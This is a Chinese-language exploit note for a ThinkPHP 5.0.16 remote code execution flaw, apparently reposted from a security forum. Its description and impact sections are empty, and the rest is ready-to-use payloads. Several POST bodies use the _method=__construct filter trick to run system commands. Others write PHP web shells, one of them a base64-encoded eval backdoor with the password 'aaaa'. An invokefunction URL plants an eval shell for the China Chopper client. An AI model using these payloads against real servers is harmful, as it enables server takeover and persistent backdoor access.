 # Thinkphp 5.0.16

> 原文：[https://www.zhihuifly.com/t/topic/3152](https://www.zhihuifly.com/t/topic/3152)

# Thinkphp 5.0.16

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> https://www.0-sec.org/?s=index/index

```
post `s=whoami&_method=__construct&method=POST&filter[]=system

aaaa=whoami&_method=__construct&method=GET&filter[]=system

_method=__construct&method=GET&filter[]=system&get[]=whoami

c=system&f=calc&_method=filter` 
```

> 写shell

```
POST `s=file_put_contents(‘zerosec.php’,’<?php phpinfo();’)&_method=__construct&method=POST&filter[]=assert` 
```

> 有captcha路由时无需debug=true

> https://www.0-sec.org/?s=captcha/calc

```
POST `_method=__construct&filter[]=system&method=GET` 
```

> 写shell

```
post

s=file_put_contents(’/绝对路径/test.php’,base64_decode(‘PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4’))&_method=__construct&filter=assert `密码aaaa` 
```

> 直接菜刀连

```
http://wwww.0-sec.org/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=eval($_POST[1]) 
```